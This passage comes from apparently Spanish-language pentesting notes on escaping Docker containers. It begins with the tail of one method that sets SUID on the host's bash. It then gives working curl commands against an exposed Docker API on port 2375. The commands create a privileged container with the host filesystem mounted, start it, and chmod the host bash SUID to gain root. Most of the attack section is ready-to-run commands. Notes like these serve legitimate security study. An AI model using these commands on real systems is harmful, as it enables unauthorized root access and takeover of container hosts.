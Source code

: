Esos archivos corresponden a la maquina host real. Y como estamos como root, podemos hacer lo que sea., por lo que le agregamos desde esa consola los permisos SUID a la bash real y al volver al host podemos ejecutar desde ahi el comando 
```bash 
❯ bash -p                # Obtener una bash privilegiada en el host 
```




* Forma 4
Para este caso vamos a abusar de la API de Docker. 
* Puerto de operación **2375**
* Puerto de operación con HTTPS **2376**

* [Enable-TCP-Port-2375-Docker](https://gist.github.com/styblope/dc55e0ad2a9848f2cc3307d4819d819f)

```bash 
❯ netstat -nat                           # Para mirar los puerto abiertos y encontrar el 3275, 3276
```

* [Hacktricks-2375/2376](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker)
Dentro del contenedor 
```bash 
❯ echo '' > /dev/tcp/172.17.0.1/2375     # Forma para saber si el puerto esta activo, si no devuleve nada quiee decir que el codigo de estado es exitoso

	# IP = Maquina host 
	# 2375 = Puerto de la API
```

Crearemos una imagen con nombre 'test', la raíz de la maquina host se desplegara en el dir **/mnt/** de muestro contenedor.
```bash 
❯  curl http://172.17.0.1:2375/containers/json | jq            # Listar los contenedores que existen 
❯  curl http://172.17.0.1:2375/images/json | jq                # Listar las imagenes que existen 

❯ curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/create?name=test -d '{"Image":"ubuntu:latest", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
```

![](Pasted%20image%2020230531125838.png)

Nos desplegara un contenedor con un identificador similar. 

Colocaremos el ID anterior y se arrancara el contenedor con el nombre 'test'.
```bash 
❯ curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/start?name=test
```

Aquí es donde haremos la ejecución de comandos. Por lo que le asignaremos SUID a la bash del contenedor, pero como esta conectada al host, quiere decir que le asignaremos el SUID a la bash de host.
```bash 
❯ curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "chmod u+s /mnt/bin/bash"]}'
```
